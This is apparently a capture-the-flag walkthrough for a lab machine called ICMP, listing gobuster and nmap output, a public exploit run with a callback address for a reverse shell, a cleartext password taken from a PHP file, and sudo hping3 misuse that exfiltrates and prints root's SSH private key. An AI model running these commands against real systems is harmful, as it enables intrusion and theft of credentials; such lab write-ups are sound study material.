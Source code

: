 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# ICMP
# 26/2/2023

----------------------------------------------------
# gobuster
----------------------------------------------------
└─$ gobuster dir -u http://192.168.56.81  -t 50  -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .html,.php,.txt -b 400,403,404,500 --wildcard
/index.php (Status: 302)
/mon (Status: 301)

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

----------------------------------------------------
# exploit
----------------------------------------------------
searchsploit -m 48980

└─$ python3 48980.py http://192.168.56.81/mon 192.168.118.4 1234
fc017340ee17bb3408f68abcd5549e47

----------------------------------------------------
# priv esc
----------------------------------------------------
www-data@icmp:/home/fox$ ls -la devel/crypt.php
ls -la devel/crypt.php
-rw-r--r-- 1 fox fox 56 Dec  3  2020 devel/crypt.php
www-data@icmp:/home/fox$ cat devel/crypt.php
cat devel/crypt.php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>
www-data@icmp:/home/fox$ 



Now we can attempt to authenticate via SSH as fox with the password BUHNIJMONIBUVCYTTYVGBUHJNI.

$ sudo -l
[sudo] password for fox: 
Matching Defaults entries for fox on icmp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3


sudo hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa  

sudo hping3 --icmp 127.0.0.1 --listen signature --safe  



-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----

